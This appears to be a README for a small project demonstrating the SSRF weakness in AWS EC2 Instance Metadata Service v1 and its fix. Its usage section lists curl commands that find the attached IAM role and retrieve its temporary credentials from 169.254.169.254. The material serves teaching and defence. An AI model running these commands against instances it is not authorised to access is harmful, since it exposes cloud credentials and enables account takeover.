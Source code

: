 # Project Summary
Demonstrates how to fix the Server Side Request Forgery Vulnerabilty in Instance Metadata Service Version 1.

# How to Use
As per my article, use the following process to exploit IMDSv1 on the EC2 instance.

- Run the following command to see the name of the role (if any) attached to the EC2 instance
'curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/'

- We can store the output as an environment variable, in this case role_name
'role_name=$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/)'

- Finally, we can run a command to retrieve the credentials
'curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$role_name'

# Notes
Ensure to update the variables to those for your AWS account.